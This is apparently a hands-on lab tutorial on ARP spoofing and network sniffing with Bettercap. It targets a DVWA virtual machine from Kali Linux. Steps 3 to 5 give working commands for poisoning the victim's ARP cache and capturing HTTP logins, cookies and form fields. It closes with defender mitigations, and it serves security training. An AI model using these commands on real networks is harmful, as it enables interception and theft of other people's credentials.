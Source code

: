 ## 🧪 LAB: Spying on Network Devices Using Bettercap + DVWA

### 🔧 LAB TOOLS NEEDED

| Component    | Role              | Recommended OS            |
| ------------ | ----------------- | ------------------------- |
| 🖥 Attacker  | Sniffs/captures   | **Kali Linux**            |
| 🧑‍💻 Victim | Gets ARP spoofed  | **DVWA on Ubuntu**        |
| 🌐 Network   | Shared connection | **NAT Network / Bridged** |

---

## 📦 STEP 1: Setup Virtual Environment

### 🔸 1.1 Kali Linux (Attacker)

* Use VirtualBox or VMware
* Ensure **Bettercap is installed**:

  ```bash
  sudo apt install bettercap
  ```

### 🔸 1.2 DVWA Machine (Victim)

* Ubuntu/Debian-based VM

* Install DVWA:

  ```bash
  sudo apt update && sudo apt install apache2 mariadb-server php php-mysqli git -y
  git clone https://github.com/digininja/DVWA.git /var/www/html/dvwa
  sudo chown -R www-data:www-data /var/www/html/dvwa
  ```

* Setup MySQL and configure DVWA:
  Follow [DVWA setup instructions](https://github.com/digininja/DVWA)

### 🔸 1.3 Network Configuration

* Ensure both VMs are on the same subnet:

  * Use **"NAT Network"** or **"Internal Network"** in VirtualBox.
  * Test with ping:

    ```bash
    ping <victim_IP>
    ```

---

## 🧠 STEP 2: Discover Victim IP

On Kali:

```bash
sudo arp-scan --localnet
```

Note the IP of your DVWA victim (e.g., `192.168.56.101`).

---

## 🛠 STEP 3: Perform ARP Spoofing with Bettercap

```bash
sudo bettercap -iface eth0  # or your correct interface
```

Inside Bettercap interactive shell:

```bash
set net.ipv4.forwarding true
set arp.spoof.targets 192.168.56.101
arp.spoof on
net.sniff on
set net.sniff.verbose true
```

---

## 🧪 STEP 4: Browse DVWA on Victim and Trigger Sniff

On your **DVWA machine**:

* Open browser → `http://localhost/dvwa`
* Login with `admin` / `password`
* Use forms like “Brute Force”, “Login”, etc.

---

## 🔍 STEP 5: View Captured Credentials

In your **Bettercap terminal**, you should now see:

```
http login detected: admin:password from 192.168.56.101
```

Bettercap will also show **visited websites**, **cookies**, and **form fields**.

---

## 📁 STEP 6: Optional – Save Logs to PCAP File

```bash
set net.sniff.output /home/kali/sniffed.pcap
```

Then analyze with:

```bash
wireshark /home/kali/sniffed.pcap
```

Apply filters like:

* `http.request.method == "POST"`
* `dns`
* `tcp.port == 80`

---

## 🧹 Cleanup

To stop:

```bash
arp.spoof off
net.sniff off
exit
```

And disable IP forwarding:

```bash
echo 0 | sudo tee /proc/sys/net/ipv4/ip_forward
```

---

## 🔐 Mitigations (for defenders)

* Use HTTPS with HSTS
* Enable static ARP tables on critical devices
* Use switch port security (against ARP flooding)
* Use IDS/IPS to detect ARP spoofing

